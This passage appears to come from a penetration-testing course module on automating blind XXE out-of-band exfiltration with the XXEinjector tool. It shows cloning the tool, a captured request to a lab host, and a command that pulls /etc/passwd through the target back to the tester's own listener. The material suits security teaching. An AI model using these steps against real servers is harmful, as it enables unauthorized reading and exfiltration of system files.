 ### Automated OOB Exfiltration

Although in some instances we may have to use the manual method we learned above, in many other cases, we can automate the process of blind XXE data exfiltration with tools. One such tool is [XXEinjector](https://github.com/enjoiz/XXEinjector). This tool supports most of the tricks we learned in this module, including basic XXE, CDATA source exfiltration, error-based XXE, and blind OOB XXE.

To use this tool for automated OOB exfiltration, we can first clone the tool to our machine, as follows:

&#x20; Blind Data Exfiltration

```shell-session
root@htb[/htb]$ git clone https://github.com/enjoiz/XXEinjector.git

Cloning into 'XXEinjector'...
...SNIP...
```

Once we have the tool, we can copy the HTTP request from Burp and write it to a file for the tool to use. We should not include the full XML data, only the first line, and write `XXEINJECT` after it as a position locator for the tool:

Code: http

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Now, we can run the tool with the `--host`/`--httpport` flags being our IP and port, the `--file` flag being the file we wrote above, and the `--path` flag being the file we want to read. We will also select the `--oob=http` and `--phpfilter` flags to repeat the OOB attack we did above, as follows:

&#x20; Blind Data Exfiltration

```shell-session
root@htb[/htb]$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```
